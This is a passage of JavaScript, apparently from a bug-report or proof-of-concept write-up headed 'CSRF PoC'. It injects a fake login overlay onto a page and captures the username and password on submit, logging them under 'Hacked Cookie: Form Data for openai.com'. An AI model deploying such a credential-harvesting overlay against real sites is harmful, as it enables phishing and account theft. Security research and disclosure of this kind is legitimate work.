 ```
  usernameInput.type = 'text';
  usernameInput.id = 'username';
  usernameInput.placeholder = 'Username';
  usernameInput.style.width = '100%';
  usernameInput.style.padding = '10px';
  usernameInput.style.marginBottom = '10px';
  usernameInput.style.borderRadius = '5px';

  const passwordInput = document.createElement('input');
  passwordInput.type = 'password';
  passwordInput.id = 'password';
  passwordInput.placeholder = 'Password';
  passwordInput.style.width = '100%';
  passwordInput.style.padding = '10px';
  passwordInput.style.marginBottom = '20px';
  passwordInput.style.borderRadius = '5px';

  const loginButton = document.createElement('button');
  loginButton.type = 'submit';
  loginButton.textContent = 'Login';
  loginButton.style.width = '100%';
  loginButton.style.padding = '10px';
  loginButton.style.border = 'none';
  loginButton.style.backgroundColor = '#007bff';
  loginButton.style.color = '#fff';
  loginButton.style.borderRadius = '5px';
  loginButton.style.cursor = 'pointer';

  // Append elements to form
  loginForm.appendChild(heading);
  loginForm.appendChild(usernameInput);
  loginForm.appendChild(passwordInput);
  loginForm.appendChild(loginButton);

  // Append form to container
  loginContainer.appendChild(loginForm);

  // Append container to body
  document.body.appendChild(loginContainer);

  // Show the login container
  loginContainer.style.display = 'block';

  // Log submitted form data
  loginForm.addEventListener('submit', function(event) {
    event.preventDefault();
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;
    console.log('%cHacked Cookie: Form Data for openai.com', 'color: #ff0000; font-weight: bold;');
    console.log(`Username: ${username}, Password: ${password}`);
  });
}

// Call function to create login page
createLoginPage();
```
### CSRF PoC
